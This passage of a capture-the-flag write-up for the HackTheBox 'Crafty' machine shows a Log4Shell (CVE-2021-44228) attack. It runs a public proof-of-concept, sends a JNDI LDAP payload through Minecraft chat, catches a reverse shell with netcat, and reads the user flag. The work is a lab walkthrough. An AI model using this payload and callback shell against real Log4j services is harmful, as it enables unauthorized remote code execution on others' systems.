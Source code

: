 Run poc to start ldap and web server to host payload

```bash
┌──(bravosec㉿fsociety)-[~/htb/Crafty/exploit/log4j-shell-poc]
└─$ python poc.py --userip $(pt get lhost) --lport 1111

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.48:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```

Send the payload to chat

```bash
┌──(pyCraft-RWffmEyJ)─(bravosec㉿fsociety)-[~/htb/Crafty/exploit/pyCraft]
└─$ rlwrap python start.py -u x -o -s $(pt get rhost)
Connecting in offline mode...
Connected.
${jndi:ldap://10.10.14.83:1389/a}
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Crafty/exploit/log4j-shell-poc]
└─$ rlwrap -cAr nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.83] from (UNKNOWN) [10.129.199.86] 49681
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\users\svc_minecraft\server>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\users\svc_minecraft\server> whoami
whoami
crafty\svc_minecraft
PS C:\users\svc_minecraft\server> cat C:\users\svc_minecraft\Desktop\user.txt
917ec1de07337cf54614b4b94439d57f
```

# Root Flag
---

## From svc_minecraft to Administrator

